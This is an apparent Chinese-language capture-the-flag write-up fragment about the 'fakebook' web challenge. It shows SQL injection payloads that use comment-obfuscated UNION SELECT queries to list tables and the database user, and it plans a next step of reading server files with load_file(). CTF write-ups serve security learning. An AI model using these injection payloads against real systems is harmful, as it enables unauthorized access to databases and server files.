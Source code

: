 ![alt text](image-31.png)

```
-1 union/**/select 1,(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like'fakebook'),3,4--+
```
查到user
```bash
 ?no=-1 union/**/select 1,user(),3,4--+　　　　//数据库信息
 ```
 ![alt text](image-32.png)
 发现居然是root权限，那我们知道有一个load_file()函数可以利用绝对路径去加载一个文件，于是我们利用一下
